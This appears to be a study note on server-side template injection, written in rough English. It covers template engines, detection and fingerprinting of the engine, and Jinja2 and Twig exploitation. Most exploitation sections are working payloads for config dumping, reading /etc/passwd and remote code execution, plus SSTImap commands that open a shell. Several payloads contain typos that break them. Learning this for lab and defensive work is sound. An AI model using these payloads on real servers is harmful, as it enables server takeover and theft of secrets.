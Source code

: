 # Template Engine:
A template engine is sofware that combines pre-defined templatess with dynamically generate data and is often used by web app to generate
dynamically responses. AN everyday use case for template engines is a website with shared and foorters for all pages. A template can dynamically
add content but keep the header and footer the same.
This avoid duplicate instances of header and footer in differents places reducing complexity and thus enabling better code maintainability.
The most popular are [Jinja](https://jinja.palletsprojects.com/en/stable/) [Twing](https://twig.symfony.com/)

- Templating:
Template engines typically require two inputs: a template and set of values to be inserted to the template. The template can typically be provided
as a string or a file and contains pre-defined places where the template engine inserts the dynamically generated values.
The values are provided ad key-value pairs so the template engine can place the provided value at the location in the template marked with the corresponding
key. Generating a string form the input template and input value is called rendering.
Jinja `Hello{{name}}!`
It contains a single variable called name, which is replace with a dynamically value during rendering. When the template is rendered, must be provide with a value for thge variable name
IF we provide the variable [name="Albert"] to the rendering funtions, the template engine will generate the follo string:
`hello Albert`

While the above is simplistic example, many modern template engines support more complex operations typically provided by programming, such conditions loops. Consider the following string
```jinja2
{% for name in names %}
Hello {{name}}!
{% endfor %}
```
The template contains a for-loop that loops ovewr all elements in a variable name. We need to provide the rendering funtion with an object in the names variable that it can iterate over.
If we pass the funtion with a list such as [names=["Alicia","Rosa","Eric"]], the themplate will generate the string.

# Introduction to SSTI:
This injection occurs when the attacker can inject templating code into a template that is later render y the server, if an attacker inject malicius code, the server
potentially executes the code during the rendering process, enabling an attacker to take over the server completely.

- Server-side Template Injection:
AS we have seen, the rendering of templates inherently deals with dynamically values provided to the template engine during rendering. These dynamically value are provided by the user. Templates engine
can deal with user input securely if provided as value to the rendering funtions. That is cuase template engine insert the value into the corresponding places in the template and fo not
run any code within the values. SSTI occurs when a attacker can control the template parameter, as template engines run code provided in the template.

If templating is implemented correctly, user input is always provided to the rendering funtions in values an never in the template string. SSTI occur when user input is inserted into the template
before rendering funtion called ont the template. A different instance would be is a web app ccall thge rendering funtion on the same template multiple times.

# Identifying SSTI:
Is essential to succesfully confirm that the vulnerability is present, we need to identify the template engine the target web app uses, as the exploiting proccess highy on the concrete template engine in use.
- Confirming SSTI:
The process of identifying aan SSTI vulnerability is similar to the process of identifyung any other injection vulnerability, Sql injection. The most effective way is
to inject special characters with semantic meaning in template engine and observe the web app behavior. The following test string is commonly used to provoke an error message in a web app vulnerable SSTI, as
it consist of all special characters that have a particular semantic purpouse in popular template engine [${{<%[%'"}}%\.]S

Since the above test string should almost certainly violate the template syntax, it should result an error if the web app is vulnerable to SSTI, The behavior is similar to how injecting a single quote ' into web
app vulnerable to SQL injection can break an SQL query's sysntax and thus result in a SQL error.

- Indentiying the template engine:
To enable the successful explotation of an SSTI vulnerability, we first need to determine the template engine used by the web app. We can utilize slight variations in the behavior of different template engines
to achieve this. Consider the commonly user overview containing slight difference in popular templates:
![Schema](https://academy.hackthebox.com/storage/modules/145/ssti/diagram.png)

We will start by injecting the payload [$7*7] and follow the diagram from the left, depending on the result of the injection. Suppose the
injection resulted in a successful execution of the injected payload.
This time the payload was execute by the template engine, We follow the green narrow and inject th payload [{{7*'7'}}].
Result will enable is the deduce the template engine used by the web app. The reult will be 7777777 while in Twing. The rusult will be 49.

Exercise:
Apply what you learned in this section and identify the Template Engine used by the web application. Provide the name of the template engine as the answer.

# Exploiting SSTI - Jinja2:
Now that we have seen how to identify the template engine used by a web app vulnerable to SSTI, we will move on to th explotation of SSTI. We will assume
that we have successfully identified that the web app uses the Jinja template engine. We will only focus on the SSTI explotation and this assume that the SSTI and template
engine idenitification have already been done in prev.

Junja is a template commonly  used in Pythion web framework might thus be slingtly different.
In our payload we can freeky use any libraries that are already imporated by th Python app, either directly or indirectly. We may be able to import additional librearies
through the use of the imporat statement.

- Information Disclosusre:
We can exploit the SSTI vulnerability to obtain internal information about the web app, icluding configuration details and the web app source code. We can obtain the web app conf using the payload:
`{{config.items()}}`
Since this payload dump the entire web app configuration, including any used secret keys, we can prepare futher attacks using the obtained information. We can also execute pyton code
to obtain informationa about the web app sorce code, we can use the payload.
`{{ self.__init__.__globals__.__builtins__ }}`

- Local File inclusion(LFI)
We can use python's built-in funtions open to include a local file, we cannot call the funtion directly; we need to call it from the __builtins__ dictionary we dumped earlier.
`{{self.__init__.__globals__.__builtins__.open("/ftc/passwd").read()}}`
- Remote Code Execution (RCE):
To archieve remote code execution in py, we can use funtions provided by th os, libary as system or popen. If web app has not imported this library, we must first, import ut by calling
the built-in funtions import. THis results in the following SSTI payloads:
`{{self.__init__.__globals__.__builtins__.import__('os').popen('id').read() }}`

Exercise:
Exploit the SSTI vulnerability to obtain RCE and read the flag:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}`

# Exploting SSTI - Twig
Twig is a template engine fo the PHP programing lenguage.
- Information Disclosure:
We can use _self to obtain a little information about the current template:
`{{_self}}`
- Local file injection LFI:
Reading local file is not possible using the internal funtions directly provided by twig, the php web framework [Symfony](https://symfony.com/) defines additional filter. One og these is
[file_expept](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:
`{{"/etc/passwd"|file_expept(1,-1) }}`
- Remote code Exection:
We can use a PHP built-in funtion such a system. We can pass an argurment to this funtions by using twig's filter funtions, resulting in any of the following payloads:
`{{ ['id'] | filter('system') }}`

- Further Remarks:
The general idea behind SSTI remains the same, exploting in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax.
[Server-Side-template-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

Exercise:
Exploit the SSTI vulnerability to obtain RCE and read the flag:
`{{ ['cat ../../../flag.txt '] | filter('system') }}`

# SSTI Tools of the trade & preventing SSTI:
The most popular tools are [tplmap](https://github.com/epinna/tplmap). Is not maintained anymore and runs on the deprecated Python2 version. We will more use modern [SSTlmap](https://github.com/vladko312/SSTImap) to
aid the SSTI explotation proccess.
`python3 sstimap` or `sstimap`

Usage:
`sstimap.py -u http://172.17.0.2/index.php?name=test`
and We can confirms the SSTI vulnerability and successfully identifies the Twig template engine. Also provides capabilities we can us during the explotation. We can download a remote file to our local machine using -D:
`sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd`
We can execute a system command using -S flag:
`sstimap.py -u http://172.17.0.2/index.php?name=test -S id`
Also the flag --os-shell to interactive shell:
`sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell`

- Prevention:

To prevent  SSTI vulnerability, we must ensure that user input is never fed into the call to the template engine's rendering funtions in the template parameter. This can be achieve by carefully going through the different code paths
ensuring that user input is never added to a template before call to the rendering funtion.
We app intends to have users modify existing templates or uplaod new ones for bussines reasons, it's crucial to implemetn proper handening measure to prevent the takeover ot the web server. This process can include hardening the template
engine by removing potentially dangerous funtions that can be used to achieve remote code execution form teh execution enviroment.
